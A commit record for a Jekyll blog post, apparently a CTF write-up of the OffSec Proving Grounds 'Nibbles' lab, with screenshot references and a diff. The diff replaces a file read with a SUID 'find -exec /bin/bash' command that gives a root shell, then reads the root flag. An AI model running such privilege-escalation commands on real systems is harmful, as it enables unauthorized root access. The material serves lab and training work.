

Before and after one commit to spaceyowie/spaceyowie.github.io, a Jekyll site: the page built from _posts/2021-04-27-offsec-proving-grounds-nibbles-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 8960 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 9792 px from its top, so only the background shows below that.

Commit message:
Better use of find setuid binary

````diff
--- a/_posts/2021-04-27-offsec-proving-grounds-nibbles-writeup.md
+++ b/_posts/2021-04-27-offsec-proving-grounds-nibbles-writeup.md
@@ -347,8 +347,13 @@ find / -perm -u=s -type f 2>/dev/null
 The `find` command has an `-exec` argument that will execute a specified command, and with the suid bit set, the command will also be executed with root privileges. This gives us the ability to not only read the root flag, but also manipulate config files or create new users.
 
 ```shell
-postgres@nibbles:/var/lib/postgresql/11/main$ find PG_VERSION -exec cat /root/proof.txt \;
-find PG_VERSION -exec cat /root/proof.txt \;
+postgres@nibbles:/var/lib/postgresql/11/main$ find . -exec /bin/bash \;
+find . -exec /bin/bash \; -quit
+# whoami
+whoami
+root
+# cat /root/proof.txt
+cat /root/proof.txt
 fd8334ae00d76615d69931c449c61301
 ```
 
````
